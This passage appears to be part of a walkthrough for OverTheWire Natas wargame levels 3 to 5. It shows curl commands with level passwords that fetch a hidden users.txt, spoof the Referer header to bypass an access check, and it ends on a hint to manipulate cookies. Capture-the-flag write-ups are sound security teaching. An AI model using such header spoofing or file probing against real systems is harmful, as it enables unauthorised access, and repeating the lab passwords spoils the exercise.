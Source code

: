 Get the content of `users.txt`  

```bash
curl --silent --user natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14 http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt
```

```bash
curl --silent --user natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14 http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt | grep "natas4"
```

## Level 4

```bash
curl --silent --user natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ http://natas4.natas.labs.overthewire.org
```

Consider the code  

```html
<div id="content">

Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
```

We need to point the referrer of request to _"http://natas5.natas.labs.overthewire.org/"_

```bash
curl --silent --user natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ --referer "http://natas5.natas.labs.overthewire.org/" http://natas4.natas.labs.overthewire.org
```

```bash
curl --silent --user natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ --referer "http://natas5.natas.labs.overthewire.org/" http://natas4.natas.labs.overthewire.org | grep "natas5"
```

## Level 5

```bash
curl --silent --user natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq http://natas5.natas.labs.overthewire.org
```

Notify the code  

```html
<div id="content">
Access disallowed. You are not logged in</div>
```

**Not logged in**, consider manipulating the cookie  
